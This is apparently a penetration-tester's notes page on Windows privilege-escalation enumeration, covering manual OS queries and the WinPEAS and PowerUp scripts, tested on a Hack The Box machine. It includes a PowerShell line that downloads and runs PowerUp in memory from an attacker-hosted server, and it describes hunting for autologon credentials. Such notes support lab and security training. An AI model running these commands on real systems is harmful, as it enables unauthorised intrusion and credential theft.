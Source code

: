 # Enumeration

## Manual Enumeration

Get OS version:

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

Get service pack version:

```
wmic os get servicepackmajorversion
```

## Automatic Enumeration

### WinPEAS

Great Windows privesc enumeration script.

{% embed url="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS" %}

If you transfer the results from running the script to linux, then you can view colourized output with the **cat** command. Vim doesn't colourize it properly.

To view it with other tools, you have to convert it to UTF-8 first.

```
iconv -f utf-16le -t utf-8 winpeas.txt -o winpeas-utf-8.txt
```

After that, you can view it with **less** (ansi coloured output).&#x20;

```
less -R winpeas-utf-8.txt
```

**Caveats**:&#x20;

* When I tested this script, it wasn't able to find autologon credentials, even though PowerUp was able to find them with `Get-RegistryAutoLogon` (WinPEAS checks for them but said it didn't find any in the "Bart" box on HTB)

### PowerUp

This may catch some stuff that WinPEAS might not find, like autologon credentials.

Serve the script over HTTP:&#x20;

```
python3 -m http.server 80
```

(From Powershell) load the module into memory:&#x20;

```
IEX (New-Object Net.WebClient).DownloadString('http://YOUR_IP_ADDRESS_HERE/PowerUp.ps1');
```

Invoke all checks:&#x20;

```
Invoke-AllChecks | Out-File -Encoding ASCII powerup.txt
```

**Caveats**:&#x20;

* If you're running the script on a 64-bit machine, then [make sure you're using 64-bit Powershell](../cli-tips.md#switch-to-64-bit-powershell-from-32-bit).
